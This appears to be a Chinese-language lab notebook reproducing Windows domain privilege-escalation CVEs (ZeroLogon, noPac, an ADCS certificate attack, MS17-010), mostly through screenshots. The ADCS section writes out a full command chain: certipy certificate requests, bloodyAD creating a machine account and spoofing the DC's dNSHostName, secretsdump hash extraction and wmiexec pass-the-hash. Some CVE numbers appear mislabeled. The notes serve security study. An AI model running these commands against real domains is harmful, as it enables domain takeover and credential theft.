 # CVE

下面的py基本用的都是py3.8版本的

针对域内的爆出的cve，有的目前还是能用上的，所以也学习一下

### cve-2020-1472  

这里记得拍个快照，因为重置密码后会破坏DC的环境，导致DC叽了

条件：只需要域内一个机器，版本符合。 。还需要修改hosts地址（C:\Windows\System32\drivers\etc\hosts）：修改域名地址，让本地计算机能找到，不修改的话本地计算机就会在外网找符合域名的地址，找不到对应计算机名字。

环境配不好，域加不进去，网络问题，需要更改和DC一一致，这里一拍：

![1733928009187](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942304.png)

 用cve的cve-2020-1472-exploit.py工具，(socks代理已建立)将DC的密码可以置空。将DC当前连接可以不用密码。再用secretsdump.py（使用空密码连接）获取域内的所有hash，（这里密码都置空了，为什么还要获取hash值）这个工具可以不需要密码，但是后面用wmiexec.py（可以rce）连接dc还是需要hash，所以上面还是得先拿到域内hash。

得到Dc主机名和ip地址

![1733928492462](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942305.png)

实战还是有点风险，毕竟将DC置空了，然后用脚本将DC置空（这里有点慢），无论是否能ping通对方Ip，都给我把socks代理搭建起来！！！！！一晚上就省事情，看自己能和DCping通，就没有搭建代理，结果最后就是这个问题，复现成功，置空：

![1733930889223](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942306.png)

![1733930949150](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942307.png)

然后置空后用secretsdump.py脚本进行爆破hash值，将DC下的所以hash爆出来

![1733931096818](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942308.png)

获取的hash值，找到DC的hash:

![1733931204733](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942309.png)

连接域控PTH，拿到shell:

![1733931281558](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942310.png)

操作完记得恢复DC密码，不然DC就崩了

### Cve-2021-42281

 条件：需要一个域内用户的明文账户密码(2012以上不好获取明文)。建立连接，更改hosts。版本符合

这种回显就说明有此漏洞（scoks）：

![1733931718975](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942311.png)

还是用scanner.py工具扫看是否存在漏洞，再用nopac.py进行全自动-----------然后重置一下环境（）翻车--------- 使用kali进行测试，成功。用sam_the_admin.py（hosts也得设置一下，绑定好域名。

报错是因为上一个漏洞将DC打坏了，这里需要恢复一下DC快照

![1733931821853](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942312.png)

恢复后，还是有点问题，所以最后选择用kali版本进行操作。--配好代理。

![1733997980652](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942313.png)

这里我本地DC好像坏了，没有反弹shell成功，不过正常是反弹回来 的

![1733997943625](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942314.png)

经过99810难，重新配置了环境------直接拿到shll：

![1734008376528](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942315.png)

这里web加域时候报错，什么找不到域，无法与域建立连接时候：

![1734008511638](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942316.png)

exe的工具（不推荐使用）：

### cve-2022-26932

ADCS攻击

条件：

![1734008621276](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942317.png)

  域里面需要安装对应证书。一个域内用户机。这里工具在kali上，文档中的命令适用于2023以下certipy3，看看自己的kali是啥时候的，2023以上是Certipyr4，命令会有差异。

检测DC是否有证书：

![1734008693421](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942318.png)



  演示。还是得先配好代理， 这里的目标god机没有安装对应的证书服务，所以测试失败。

  重新换目标机，安装了漏洞利用的证书服务：win2016 ------ xiaodii.local。背景：信息收集好------CS中获取CA结构名和计算机名---------域内信息，kali配置好hosts，kali 代理proxychains配置好。用工具certipy生成一个证书，然后检测，添加一个机器，然后修改机器属性，dnshost和DC一致，在用刚才生成的机器生成证书，在检测证书，然后导出许多域内hash（secretsdump.py），用wmiexec.py利用得到的hash进行建立。注意：这里前面都需要加代理proxychain4命令

这里还是需要配置环境。1、申请低权限用户证书：

certipy req 'xiaodi.lab/test:Pass123@dc.xiaodi.lab' -ca xiaodi-DC-CA -template User -debug 



2、检测证书

certipy auth -pfx test.pfx -dc-ip 192.168.3.111



3、创建一个机器账户：

python3 bloodyAD.py -d xiaodi.lab -u test -p 'Pass123' --host 192.168.3.111 addComputer pwnmachine 'CVEPassword1234*'



4、设置机器账户属性(dNSHostName和DC一致)：

python3 bloodyAD.py -d xiaodi.lab -u test -p 'Pass123' --host 192.168.3.111 setAttribute 'CN=pwnmachine,CN=Computers,DC=xiaodi,DC=lab' dNSHostName '["DC.xiaodi.lab"]'



5、再次申请证书：

certipy req 'xiaodi.lab/pwnmachine$:CVEPassword1234*@192.168.3.111' -template Machine -dc-ip 192.168.3.111 -ca xiaodi-DC-CA -debug



6、检测证书：

certipy auth -pfx ./dc.pfx -dc-ip 192.168.3.111



7、导出HASH：

python3 secretsdump.py 'xiaodi.lab/dc$@DC.xiaodi.lab' -hashes :10e02bef2258ad9b239e2281a01827a4



8、利用HASH：

python3 wmiexec.py xiaodi.lab/administrator@192.168.3.111 -hashes aad3b435b51404eeaad3b435b51404ee:e6f01fc9f2a0dc96871220f7787164bd

### CVE-2017-0146

MS17010  ----------- 系统漏洞。直接是对系统打。

这里用msf进行打win7机，msf怎么进行代理通讯呢》所以这里是让目标机直接上线到msf，这里cs首先先有了一个被控机，这里也可以用cs上传直接上传msf,exe后门，但是用另一种方法：将cs的移植到msf上：

 : CS创建监听器、配置msf和监听器对应。spawn 监听器名字。这里为什么正向后门在仔细听听。

![1734009824988](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942319.png)

msf：

![1734010040538](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942320.png)

cs将目标机权限给msf：

![1734010100453](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942321.png)

msf监听到：

![1734010127391](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942322.png)

得到目标web机权限后，添加查看路由，发现3网段有路由：

![1734010333483](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942323.png)

检测模块，检测是否存在漏洞：

![1734010363099](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942324.png)

结果解释：gpt

![1734010428005](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942325.png)

这里msf是cs移交过来的权限，所以选择正向，msf可以找到web机，web机找不到，web机和msf中间有cs。

![1734010531304](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942326.png)

 换一个msf重新进行测试，最后还是小翻车，看第二级---------最后是因为目标机的DC没有开，所以导致没有成功，攻击条件有一个smb协议，DC没有同步过来。

![1734010875985](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942327.png)
